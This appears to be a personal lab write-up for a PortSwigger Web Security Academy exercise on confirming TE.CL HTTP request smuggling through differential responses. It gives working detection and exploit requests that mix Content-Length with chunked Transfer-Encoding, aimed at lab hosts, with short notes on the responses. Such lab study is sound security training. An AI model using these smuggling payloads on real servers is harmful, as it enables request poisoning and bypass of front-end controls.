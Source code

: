 [LAB](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)
[Explained](https://www.youtube.com/watch?v=QaouEvhHefk&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=5&ab_channel=JarnoTimmermans)

# Detection

```HTTP
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 11
Transfer-Encoding: chunked

3
abc
X

```

![[Pasted image 20250818175935.png]]
Got Invalid Request, which indicates that frontend doesn't use Content-Length header, and "X" is an invalid chunk size:
![[Invalid Chunk SIze.png]]


Confirming TE.CL with the second request from methodology
```
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
Got **Backend Timeout with 500 Internal Server Error**
![[Pasted image 20250818180347.png]]

# Usage of Differential Responses:

Explained:
![[Confirmation Diffential Responses TE CL.png]]

Crafting the request:
Adjusting the Content-Length of the smuggles request, to the minimum to append to the next request:
![[Pasted image 20250818183436.png]]

Adjusting the chunk size to correspond to the 404 request until its body (excuding last non-printable):
![[Pasted image 20250818184053.png]]
Adjusting first Content-Length to include only chunked size and following non-printable chars:
![[Pasted image 20250818184628.png]]

# Exploiting

```HTTP
POST / HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```
Got the **200 OK** and immediately send the normal request which responded with a **404 Not Found**
